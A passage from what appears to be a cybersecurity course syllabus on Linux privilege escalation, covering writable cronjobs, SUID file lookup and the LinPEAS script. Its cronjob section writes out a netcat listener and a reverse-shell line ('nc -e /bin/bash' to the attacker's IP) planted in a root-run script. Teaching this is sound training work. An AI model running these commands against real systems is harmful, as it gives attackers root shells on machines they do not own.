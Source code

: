![NoSQL13](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL13.png?raw=true)

3. Simply login to the ch user with root privileges. The password is pass123.

## Processes that run automatically

Cronjobs are processes in which the system runs automatically with a certain periodicity. Sometimes they run a certain bash file as root and also run a certain set of commands as root. If we identify a cronjob that runs a file that we can also write... You'll see where this is going.

To see which cronjobs are running, simply run the cat/etc/crontab command. If this doesn't return anything useful we can run a program called pspy64 ([https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)) which shows us all the processes running on the system.

In this example, we find that a certain file (cleanall.sh) runs as root and we can write to it. So we try to make it run a reverse netcat shell on our machine and, if the connection is successful, we get root access to the machine.

- On our machine, we start a Netcat listener:

```bash
nc -lnvp <port>
```

On our target, we place in the above file a connection to our listener:

```bash
echo "nc -e /bin/bash <our_ip> <port> > cleanall.sh.
```

> When this runs, we have our root shell.

### SUID/GUID lookup

This is a bit more complicated, so there are some theoretical concepts to talk about. Everything in Linux is a file with permissions.

![NoSQL14](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL14.png?raw=true)

This file has full permissions and we can set it with the chmod 777 command. You might wonder why 777, well, it's all about bits. If you think of these permissions as bits 7, it is the combination of 4 (read), 2 (write) and 1 (execute). So chmod 600 corresponds to rw -- - and chmod 764 corresponds to rwx-rw-r. A SUID is a type of user permission that allows users to execute a file with the permissions of a specific user. Those files that have SUID permissions are executed with higher privileges.

Well, now, how do we find them? Well, using the following command. find / -perm -u=s -type f 2>/dev/null

Now each command that has a SUID has a different scan method, so I can't put them all here. But there are many exploits on the amazing website [https://gtfobins.github.io/](https://gtfobins.github.io/).

### LinPEAS

LinPEAS is a script that automatically looks for possible privilege escalation paths. The goal is to download the script on the target machine, grant it permissions, and execute it. We can get the script from [https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS).
